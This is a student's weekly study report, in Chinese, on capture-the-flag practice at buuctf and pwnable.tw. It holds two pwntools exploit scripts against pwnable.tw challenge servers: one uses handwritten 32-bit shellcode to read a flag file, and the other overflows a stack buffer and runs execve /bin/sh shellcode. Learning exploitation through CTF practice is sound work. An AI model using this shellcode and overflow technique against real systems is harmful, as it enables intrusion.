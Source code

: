 ```yaml
---
title: lyy
date: 2021-02-26 10:58:17
tags: gu
---
```


# 个人周报 
景禹淇 202012567

**本周工作：**  
1. buuctf
2. pwnable.tw
  
**本周遇到的技术困难及解决方案：**  
1. 菜/练
   
### 成果展示：
pwnable.tw上内核汇编pwn比较多，学了学手搓shellcode（32位）
1. <font size=5>`orw.exp`</font>
```python 
from pwn import *
#p=process('./pwn')
p=remote('chall.pwnable.tw',10001)

filename="push 0x6761;push 0x6c662f77;push 0x726f2f65;push 0x6d6f682f"
sys_open=";mov eax,0x5;mov ebx,esp;int 0x80;"
sys_read="mov eax,0x3;mov ebx,0x3;mov edx,0x30;int 0x80;"
sys_write="mov eax,0x4;mov ebx,0x1;mov edx,0x30;int 0x80;"
shellcode=filename+sys_open+sys_read+sys_write
pay=asm(shellcode)

p.recvuntil('shellcode:')
p.sendline(pay)
p.interactive()
```

2. <font size=5>`shell.exp`</font>
```python 
from pwn import *

p=remote('chall.pwnable.tw',10000)
#p=process('./pwn')
elf=ELF('./pwn')

context.os='linux'
context.arch=elf.arch
context.log_level='debug'

p.recvuntil('CTF:')
pay='a'*0x14+p32(0x08048087)
p.send(pay)
stack=u32(p.recv(4))
print hex(stack)

pay='a'*0x14+p32(stack+0x14)+'\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80'
p.send(pay)

p.interactive()
```
### 下周安排
刷
